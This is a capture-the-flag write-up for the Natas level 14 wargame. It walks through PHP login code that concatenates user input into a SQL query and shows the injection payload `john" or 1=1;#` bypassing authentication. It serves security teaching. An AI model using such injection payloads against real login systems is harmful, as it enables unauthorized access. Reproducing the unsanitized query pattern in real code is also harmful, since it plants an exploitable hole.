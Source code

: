 # Level 14
This level deals with  SQL Injection Vulnerability

## Quest
We are presented with a simple sign in form
![Level 14 Image](./images/Level14.png)

Backend code for the page is below, Lets comment it
```php
<?
if(array_key_exists("username", $_REQUEST)) {  // Checks if username parameter exists in request
    $link = mysql_connect('localhost', 'natas14', '<censored>'); // Connect to db
    mysql_select_db('natas14', $link);
    
    // A query is run based on user input, no sanitization performed. Bad Practise !!
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {  // if 'debug' parameter is set, output query
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If our query return any rows, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {  // Else, Access Denied
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

## Solution
Before going into the solution, lets look at the request that is sent when we log in. (_captured in Burp_)
![Level 14 Solution](./images/Level14_solution.png)

Let look at this line :
```sql
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

If we enter both username and password as `admin`, our resulting query becomes:
```sql
SELECT * from users where username="admin" and password = "admin";
```
If above query produces any output (rows), then we log in, otherwise we get access denied.

Now, in order to do SQL injection we enter a basic payload -> `john" or 1=1;#`
Our query becomes
```sql
SELECT * from users where username="john" or 1=1;#" and password="";
```
Note: Above query is now reduced to `SELECT * from users where username="john" or 1=1;`, as `#` is a comment in mysql and anything after it is ignored. This will always produce an output as long there are any rows in `users` table because `1=1` is always true.

From Backend code:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) { // If we found any table, then success
            echo "Successful login! The password for natas15 is <censored><br>";
    }
```
As now our query will produce an output, password for next Level will be revealed.

Below is the same thing in action.

1. We can see our request/response in Burp with our payload. (_it has been URL encoded_)
![Level14.1_solution](./images/Level14.1_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
